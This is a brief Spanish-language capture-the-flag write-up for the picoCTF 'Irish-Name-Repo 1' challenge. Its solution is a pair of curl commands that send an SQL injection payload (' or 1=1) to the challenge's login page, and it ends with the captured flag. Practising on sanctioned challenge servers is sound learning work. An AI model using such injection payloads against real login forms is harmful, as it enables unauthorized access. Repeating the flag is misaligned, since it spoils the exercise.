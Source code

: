 # Irish-Name-Repo 1
## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!
## Datos de Acceso al Nivel
```
```
## Solucion
```Bash
abrir link
intentar logearse como admin
inspeccionar pagina login
buscar los elementos del login

curl https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username=admin&password=admin or 1=1;&debug=1"

modificar password con la inyeccion 1=1
curl https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username=admin&password=' or 1=1;&debug=1"

copiar flag
picoCTF{s0m3_SQL_f8adf3fb}
```
## Notas Adicionales
|**Comandos**|**Descripcion**|
|--------|-------------|
|||
|||
## Referencias
* https://www.w3schools.com/sql/sql_injection.asp
